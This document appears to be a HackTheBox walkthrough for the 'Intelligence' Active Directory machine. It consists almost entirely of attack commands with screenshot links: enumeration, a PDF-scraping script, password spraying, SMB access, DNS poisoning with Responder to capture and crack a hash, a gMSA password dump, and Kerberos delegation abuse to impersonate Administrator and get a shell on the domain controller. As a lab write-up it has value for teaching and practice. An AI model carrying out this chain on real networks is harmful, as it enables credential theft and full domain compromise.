```
nmap -sS -sC -sV -T5 -Pn 10.10.10.248
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.248/FUZZ -e .aspx,.php,.txt,.html,.sh
wget http://10.10.10.248/documents/2020-01-01-upload.pdf
exiftool 2020-01-01-upload.pdf
curl http://10.10.10.248/documents/2020-01-01-upload.pdf --output 2020-01-01-upload.pdf
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
chmod +x kerbrute_linux_amd64
./kerbrute_linux_amd64 userenum --dc 10.10.10.248 -d intelligence.htb users
python3 findpdfs.py
wget -i pdfsurl
exiftool *upload.pdf | grep Creator | sort –u
exiftool *upload.pdf | grep Creator | awk -F': ' '{print $2}' | sort -u
for f in *pdf; do pdftotext $f; done
head -n1 *txt
NewIntelligenceCorpUser9876
cat *txt > all.txt
nano all.txt; ctrl+w password
crackmapexec smb 10.10.10.248 -u users -p NewIntelligenceCorpUser9876
smbclient -L \\\\10.10.10.248\\ -U intelligence.htb/Tiffany.Molina
smbclient \\\\10.10.10.248\\Users -U intelligence.htb/Tiffany.Molina
smbclient \\\\10.10.10.248\\IT -U intelligence.htb/Tiffany.Molina
https://github.com/dirkjanm/krbrelayx
./dnstool.py -u 'intelligence\Tiffany.Molina' -p NewIntelligenceCorpUser9876 10.10.10.248 -a add -r web1 -d 10.10.14.20 -t A
responder -I tun0
john hash -w=/usr/share/wordlists/rockyou.txt
Ted.Graves | Mr.Teddy
sudo apt install bloodhound
neo4j console
git clone https://github.com/fox-it/BloodHound.py.git
cd BloodHound.py
python3 setup.py install
python3 bloodhound.py -d intelligence.htb -u Ted.Graves -p Mr.Teddy -ns 10.10.10.248 -c All
Mark User as owned; Shortest Paths to Domain Admins from Owned Principals
git clone https://github.com/micahvandeusen/gMSADumper
python gMSADumper/gMSADumper.py -u Ted.Graves -p Mr.Teddy -d intelligence.htb -l 10.10.10.248
echo "10.10.10.248 intelligence.htb" | sudo tee -a /etc/hosts
sudo service virtualbox-guest-utils stop
sudo apt install ntpdate
sudo ntpdate -s 10.10.10.248
./getST.py -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int -hashes :51e4932f13712047027300f869d07ab6
export KRB5CCNAME=Administrator.ccache
./wmiexec.py -k -no-pass dc.intelligence.htb
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.10.248
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6413486e-f42a-43a5-b969-237d18b6e161)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.248/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/96991ceb-dfba-48ae-a7ad-6399ba07a2ed)

```
wget http://10.10.10.248/documents/2020-01-01-upload.pdf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/bdc6e7f4-18d2-448d-95b8-1531c66d373e)

```
exiftool 2020-01-01-upload.pdf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/44a19195-37c8-4deb-b3ed-b2c660206718)

```
curl http://10.10.10.248/documents/2020-01-01-upload.pdf --output 2020-01-01-upload.pdf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/b57f601a-2f11-4db5-ac20-830bd9527e7f)

```
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
chmod +x kerbrute_linux_amd64
./kerbrute_linux_amd64 userenum --dc 10.10.10.248 -d intelligence.htb users
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4efd407f-9ea1-4de4-9387-ba3ea918ac6d)

```
#!/usr/bin/env python3

import datetime
import requests


t = datetime.datetime(2020, 1, 1)  
end = datetime.datetime(2021, 7, 4) 

while True:
    url = t.strftime("http://intelligence.htb/documents/%Y-%m-%d-upload.pdf")  
    resp = requests.get(url)
    if resp.status_code == 200:
        print(url)
    t = t + datetime.timedelta(days=1)
    if t >= end:
        break
```
```
python3 findpdfs.py
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0a43ff18-7da3-413d-8e83-ef4b8c33c978)

![image](https://github.com/regarmulia/HTB/assets/33616880/5cef87be-c746-4a4f-87d4-f5d4d5f95f63)

```
wget -i pdfsurl
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5def43cf-a8a4-43a7-b66b-9ba62c4fb63d)

```
OPT2
="http://10.10.10.248/documents/2020-01-"&TEXT(ROW(A1),"00")&"-upload.pdf"
```
![image](https://github.com/user-attachments/assets/f155f10c-fdf9-4a36-9ccc-8c9f5e91b2c6)

```
exiftool *upload.pdf | grep Creator | sort –u
exiftool *upload.pdf | grep Creator | awk -F': ' '{print $2}' | sort -u
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c455f320-d1a8-4227-8fb2-c7a237733da9)

![image](https://github.com/regarmulia/HTB/assets/33616880/447f7d52-ef55-4f5b-9ef1-97e4df35eca7)

```
for f in *pdf; do pdftotext $f; done
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9ed0481f-90bf-425a-b359-7ec3b702c948)

```
head -n1 *txt
NewIntelligenceCorpUser9876
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7470bba3-1f65-4360-90db-2d353f91365c)

![image](https://github.com/regarmulia/HTB/assets/33616880/1274008a-d8b3-475d-acb1-af86b0b1f8b4)

```
cat *txt > all.txt
nano all.txt; ctrl+w password
```
![image](https://github.com/regarmulia/HTB/assets/33616880/20edb4ef-02e1-4a33-9a2f-9386d399c602)

```
crackmapexec smb 10.10.10.248 -u users -p NewIntelligenceCorpUser9876
```
![image](https://github.com/regarmulia/HTB/assets/33616880/af9cb0b4-8e06-42ea-96e3-366f913af48a)

```
smbclient -L \\\\10.10.10.248\\ -U intelligence.htb/Tiffany.Molina
smbclient \\\\10.10.10.248\\Users -U intelligence.htb/Tiffany.Molina
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3b60eb9f-aaee-4da9-8639-382181585649)

![image](https://github.com/regarmulia/HTB/assets/33616880/972a6c20-fa6e-4693-9782-b904c13b384c)

```
smbclient \\\\10.10.10.248\\IT -U intelligence.htb/Tiffany.Molina
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d81005aa-6f13-4698-941d-57d3de9a0095)

![image](https://github.com/regarmulia/HTB/assets/33616880/c6526640-fcd1-4dd6-9486-20c982b8e738)

```
https://github.com/dirkjanm/krbrelayx
./dnstool.py -u 'intelligence\Tiffany.Molina' -p NewIntelligenceCorpUser9876 10.10.10.248 -a add -r web1 -d 10.10.14.20 -t A
responder -I tun0
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5fc68265-dab2-4817-972b-3c52bc647e63)

![image](https://github.com/regarmulia/HTB/assets/33616880/0915f164-fa0e-4265-b707-cd6e4c2ba008)

```
john hash -w=/usr/share/wordlists/rockyou.txt
Ted.Graves | Mr.Teddy
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9652e79f-8d7d-4049-b812-64cf935c500c)

![image](https://github.com/regarmulia/HTB/assets/33616880/95066406-d2c7-472f-a0dd-0dd7827689cb)

```
sudo apt install bloodhound
neo4j console
```
![image](https://github.com/regarmulia/HTB/assets/33616880/49cb9f67-4bbf-4794-9cbd-2087b07b71e8)

![image](https://github.com/regarmulia/HTB/assets/33616880/eb604014-04eb-40b0-9659-e440e903fade)

```
git clone https://github.com/fox-it/BloodHound.py.git
cd BloodHound.py
python3 setup.py install
python3 bloodhound.py -d intelligence.htb -u Ted.Graves -p Mr.Teddy -ns 10.10.10.248 -c All
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1e1237c4-76e0-4a83-be86-647b7fe2415e)

```
Mark User as owned; Shortest Paths to Domain Admins from Owned Principals
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d5908444-3e56-441e-8d15-d97bcdaa4232)

```
git clone https://github.com/micahvandeusen/gMSADumper
python gMSADumper/gMSADumper.py -u Ted.Graves -p Mr.Teddy -d intelligence.htb -l 10.10.10.248
```
![image](https://github.com/regarmulia/HTB/assets/33616880/e55febe9-ae9e-44b8-abfb-3943221b8723)

```
echo "10.10.10.248 intelligence.htb" | sudo tee -a /etc/hosts
sudo service virtualbox-guest-utils stop
sudo apt install ntpdate
sudo ntpdate -s 10.10.10.248
./getST.py -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int -hashes :51e4932f13712047027300f869d07ab6
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2698b7c7-c6d8-4253-9ae3-e745af4cfc9a)

```
export KRB5CCNAME=Administrator.ccache
./wmiexec.py -k -no-pass dc.intelligence.htb
```
![image](https://github.com/regarmulia/HTB/assets/33616880/08c0de5d-cecb-4a18-b5c8-c93a82315970)

![image](https://github.com/regarmulia/HTB/assets/33616880/8b50bc39-2f12-4fac-a890-6d1f0b15b281)
